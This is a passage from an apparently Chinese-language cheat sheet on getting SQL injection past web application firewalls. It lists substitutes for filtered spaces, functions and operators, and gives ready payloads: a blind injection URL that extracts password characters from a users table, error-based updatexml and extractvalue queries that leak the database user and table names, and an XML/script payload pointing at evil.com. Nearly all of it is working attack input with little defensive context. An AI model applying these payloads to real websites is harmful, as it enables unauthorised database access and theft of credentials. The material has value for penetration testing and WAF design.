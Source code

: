 		1. 两个空格代替一个空格，用Tab代替空格，%a0=空格，注释代替空格
		%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
		2. 括号绕过空格：
		如果空格被过滤，括号没有被过滤，可以用括号绕过。
		在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格
		

5. 某些函数或命令，因为WAF的过滤机制导致我们无法使用。那么，我们也可以尝试用一些等价函数来替代它们。

	+ 函数或变量
	
			hex()、bin() ==> ascii()   
			sleep() ==>benchmark()   
			concat_ws()==>group_concat() 
			substr((select 'password'),1,1) = 0x70   
			strcmp(left('password',1), 0x69) = 1   
			strcmp(left('password',1), 0x70) = 0   
			strcmp(left('password',1), 0x71) = -1 
			mid()、substr() ==> substring()  
			@@user ==> user()  
			@@datadir ==> datadir() 

			举例：
		
				substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
				或者：substr((select 'password'),1,1) = 0x70
				strcmp(left('password',1), 0x69) = 1
				strcmp(left('password',1), 0x70) = 0
				strcmp(left('password',1), 0x71) = -1
			上述这几个示例用于说明有时候当某个函数不能使用时，还可以找到其他的函数替代其实现，置于select、uinon、where等
				关键字被限制如何处理将在后面filter部分讨论

	+ 符号

			1. and和or有可能不能使用，或者可以试下&&和||能不能用；还有=不能使用的情况，可以考虑尝试<、>，因为如果不小于又不大于，那边是等于了
			
			2. 在看一下用得多的空格，可以使用如下符号表示其作用：%20 %09 %0a %0b %0c %0d %a0 /**/ \t

	+ 生僻函数（updatexml（,select语句）、extractvalue（，）、floor()、NAME_CONST(适用于低版本)）

			MySQL/PostgreSQL支持XML函数：Select UpdateXML(‘<script x=_></script>’,’/script/@x/’,’src=//evil.com’);

			?id=1 and 1=(updatexml(1,concat(0x3a,(select user())),1))
			SELECT xmlelement(name img,xmlattributes(1as src,'a\l\x65rt(1)'as \117n\x65rror)); //
			
			postgresql
			?id=1 and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
			MySQL、PostgreSQL、Oracle它们都有许多自己的函数，基于黑名单的filter要想涵盖这么多东西从实际上来说不太可
			能，而且代价太大，看来黑名单技术到一定程度便遇到了限制

6. 使用特殊符号
	这里我把非字母数字的字符都规在了特殊符号一类，特殊符号有特殊的含义和用法。

	+ \`symbol: select \`version()\`; 反引号，可以用来过空格和正则，特殊情况下还可以将其做注释符用
	+ +- :select+id-1+1.from users; “+”是用于字符串连接的，”-”和”.”在此也用于连接，可以逃过空格和关键字过滤
	+ @:select@^1.from users; @用于变量定义如@var_name，一个@表示用户定义，@@表示系统变量
	+ Mysql function() as xxx；也可不用as和空格
	+ `、~、!、@、%、()、[]、.、-、+ 、|、%00 
	+ 操作符供参考：>>, <<, >=, <=, <>,<=>,XOR, DIV, SOUNDS LIKE, RLIKE, REGEXP, IS, NOT, BETWEEN
	